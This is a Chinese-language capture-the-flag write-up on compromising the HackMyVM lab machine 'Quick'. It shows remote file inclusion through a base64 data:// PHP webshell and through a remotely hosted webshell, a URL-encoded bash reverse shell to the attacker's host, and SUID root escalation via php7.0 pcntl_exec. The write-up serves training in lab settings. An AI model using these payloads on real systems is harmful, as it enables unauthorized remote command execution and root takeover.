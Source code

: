 ```yaml
---
{"dg-publish":true,"tags":["HMV","RFI","SUID提权"],"难度":"⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/3.quick/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.842+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/3.quick#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/3.quick#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/3.quick#3. 文件包含\|3. 文件包含]]
- [[24-渗透/HMV/3.quick#4. RFI利用\|4. RFI利用]]
	- [[24-渗透/HMV/3.quick#4.1. 姿势1：data://伪协议法\|4.1. 姿势1：data://伪协议法]]
	- [[24-渗透/HMV/3.quick#4.2. 姿势2: 远程文件包含法\|4.2. 姿势2: 远程文件包含法]]
- [[24-渗透/HMV/3.quick#5. 绕过.php\|5. 绕过.php]]
- [[24-渗透/HMV/3.quick#6. SUID 提权\|6. SUID 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Quick
```


```
难度：⭐️⭐️
```


```
知识点：RFI  SUID提权
```

## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.5
Host is up (0.00050s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```
目录扫描

```Bash
[17:42:29] 200 -  771B  - /about.php
[17:42:36] 200 -  616B  - /contact.php
[17:42:40] 200 -    1KB - /home.php
[17:42:40] 200 -  630B  - /images/
[17:42:40] 301 -  311B  - /images  ->  http://192.168.9.5/images/
```
## 3. 文件包含

访问一下

about.php

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.001.png)

发现主页有一个about按钮，点击后

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.002.png)

会发现下面的内容就是about.php里面的

结合一下这个Url 

/index.php?page=about

很容易猜测出这里有个是有一个文件包含，这里包含了about.php所以这个界面就显示了/about.php的内容

这里我们就要看是本地包含 还是远程文件包含了

先测试远程文件包含

同网段下的kali新建一个test.php 然后里面随便写点东西

然后用Python启一个http服务

```Bash
echo '123123123' >test.php
python3 -m http.server
```
访问网站

```Bash
http://192.168.9.5/index.php?page=http://192.168.9.3/test
```


```<p>192.168.9.3是kali的ip</p><p>192.168.9.5是靶机ip</p>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.003.png)

成功实现远程文件包含

## 4. RFI利用
### 4.1. 姿势1：data://伪协议法

好处： 直接传数据，不用包含远程服务器上的文件

参考文章：[Quick](https://d4redevilx.github.io/posts/hackmyvm/quick/#escalaci%C3%B3n-de-privilegios)

payload：

```Bash
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg==
```


```<p>这行 PHP 代码使用数据 URL (data URI) 直接在 PHP 代码中提供数据，而无需访问外部文件。</p><p>- data://  表示这是一个数据url</p><p>- text/plain ：指定数据的 MIME 类型，这里为纯文本。</p><p>- ;base64 使用base64编码 避免特殊字符出错</p><p>- ,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg== 编码数据 解码为
  <?php system($\_GET['cmd']);echo 'ok' ;?></p>
```
执行后成功输出ok

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.004.png)

我们传入参数cmd 执行命令

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.005.png)

成功执行，然后反弹shell，这里需要用url编码

```Bash
cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.9.3%2F1234%200%3E%261%27
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.006.png)

### 4.2. 姿势2: 远程文件包含法

在kali中启动一个服务器

```Bash
python3 -m http.server 1122
```
服务器上写一个系统马门

```Bash
<?php
system($\_GET['cmd']);
echo 'okok');
?>
```
远程包含后门文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.007.png)

这里我们不需要加上.php 因为他会自动给我们补上，

这里也可以绕过这个.php

## 5. 绕过.php

如利用问号 井号绕过等

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.008.png)

使用#绕过时请用url编码

## 6. SUID 提权

```Bash
(remote) www-data@quick:/tmp$ find / -perm -4000 2>/dev/null
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/bin/at
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/php7.0
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
```
这里面发现php具有suid权限

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.009.png)

```Bash
cd /usr/bin
CMD="/bin/sh"
./php7.0 -r "pcntl\_exec('/bin/sh', ['-p']);"
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.010.png)


